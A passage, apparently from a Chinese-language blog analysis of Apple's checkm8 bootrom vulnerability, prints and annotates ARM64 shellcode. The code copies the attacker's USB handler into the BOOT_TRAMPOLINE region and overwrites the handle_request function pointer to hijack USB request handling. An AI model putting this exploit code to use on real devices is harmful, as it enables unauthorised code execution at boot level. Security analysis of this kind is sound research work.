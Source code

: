 shellcode把usb_dfu_interface_instance.handle_request覆盖为0x1800AFC18，该地址位于BOOT_TRAMPOLINE内存区域，经过前面关闭WXN操作之后具有RWX权限。

shellcode中绿色部分是攻击者自定义的USB功能代码，将被拷贝到0x1800AFC18开始的区域。

```c
.text

.pool
.set PAYLOAD_OFFSET,               384
.set PAYLOAD_SIZE,                 576
.set PAYLOAD_DEST,                 0x1800AFC00
.set PAYLOAD_PTR,                  0x180088B48
  
  LDR  X0, =PAYLOAD_DEST    //0x1800AFC00
  ADR  X1, _main
  LDR  X2, =PAYLOAD_OFFSET  //384
  ADD  X1, X1, X2           //X1 就是蓝色和绿色阶段的起始地址
  MOV  X2, #0
  LDR  X3, =PAYLOAD_SIZE    //576
  LDR  X4, =PAYLOAD_PTR     //0x180088B48，usb_dfu_interface_instance.handle_request函数指针
  ADD  X5, X0, #0x18        //绿色部分，处理usb报文格式，从usb_0xA1_2_arm64.S的LDRH W2, [X0]开始执行
  STR  X5, [X4]             //覆盖usb_dfu_interface_instance.handle_request函数指针，劫持usb数据包处理句柄
                            //usb数据包被导向绿色部分
```

![checkm8-纯shellcode.jpg](/assets/posts/2025-05-25-深入分析苹果设备-checkm8-漏洞/checkm8-%E7%BA%AFshellcode.jpg)

1. 拷贝USB功能代码

shellcode中的蓝色和绿色部分被拷贝到BOOT_TRAMPOLINE内存区域。

```c
copy_loop:
  LDP  X3, X4,  [X1]        //把蓝色和绿色阶段拷贝到0x1800AFC00 tramploit页面
  STP  X3, X4,  [X0]        //X0 = 0x1800AFC00 其中前0x18字节是蓝色阶段，绿色阶段是usb处理句柄
  LDP  X3, X4,  [X1,#0x10]
  STP  X3, X4,  [X0,#0x10]
  LDP  X3, X4,  [X1,#0x20]
  STP  X3, X4,  [X0,#0x20]
  LDP  X3, X4,  [X1,#0x30]
  STP  X3, X4,  [X0,#0x30]
  DC   CIVAC, X0            //清除X0指向的内存地址的缓存
  DMB  SY                   //屏障指令
  ADD  X0, X0, #0x40        //dst += 0x40
  ADD  X1, X1, #0x40        //src += 0x40
  ADD  X2, X2, #0x40        //count += 0x40
```